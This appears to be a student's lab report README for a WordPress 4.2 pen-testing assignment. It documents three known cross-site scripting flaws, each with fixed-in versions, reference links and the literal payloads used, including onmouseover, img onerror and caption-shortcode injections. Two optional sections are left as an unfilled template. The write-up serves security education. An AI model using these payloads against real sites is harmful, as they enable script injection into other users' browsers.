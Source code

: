 # Project 7 - WordPress Pen Testing

Time spent: **12** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. (Required) Vulnerability Name: Authenticated Stored Cross-Site Scripting

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version:  4.2.3
- [ ] GIF Walkthrough: <img src=XSS1.gif />
- [ ] Steps to recreate: 
  - Create a new Post
  - Key in the line of code in text editer: ##### <a href="</a><a title=" onmouseover=alert('test')  ">link</a>
- [ ] Affected source code:
  - [Link 1](https://klikki.fi/adv/wordpress3.html)
  
### 2. (Required) Vulnerability Name: Unauthenticated Genericons Cross-Site Scripting

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.2
- [ ] GIF Walkthrough: <img src=XSS2.gif />
- [ ] Steps to recreate: 
  - Create a new Post
  - Key in the line of code in text editer: 
    http://www.example.com/wp-content/themes/twentyfifteen/genericons/example.html#1<img/ src=1 onerror= alert(1)> 
- [ ] Affected source code:
  - [Link 1](https://wpscan.com/vulnerability/21169b6d-61dd-4abc-b77b-167ff5f122ac)

### 3. (Required) Vulnerability Name: Authenticated Shortcode Tags Cross-Site Scripting

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.4
- [ ] GIF Walkthrough: <img src=XSS3.gif />
- [ ] Steps to recreate: 
  - Create a new Post
  - Key in the line of code in text editer: #####  XSS LOL!!![caption width='1' caption='<a href="' ">]</a><a href="http://onMouseOver='alert(/xss/)' style='display:block;position:absolute;top:0px;left:0px;margin-left:-1000px;margin-top:-1000px;width:99999px;height:99999px;'"></a>
- [ ] Affected source code:
  - [Link 1](https://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/)

### 4. (Optional) Vulnerability Name or ID

- [ ] Summary: 
  - Vulnerability types:
  - Tested in version:
  - Fixed in version: 
- [ ] GIF Walkthrough: 
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

### 5. (Optional) Vulnerability Name or ID

- [ ] Summary: 
  - Vulnerability types:
  - Tested in version:
  - Fixed in version: 
- [ ] GIF Walkthrough: 
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with  ...
<!-- Recommended GIF Tools:
[Kap](https://getkap.co/) for macOS
[ScreenToGif](https://www.screentogif.com/) for Windows
[peek](https://github.com/phw/peek) for Linux. -->

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2022] [Xujuan Chen]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
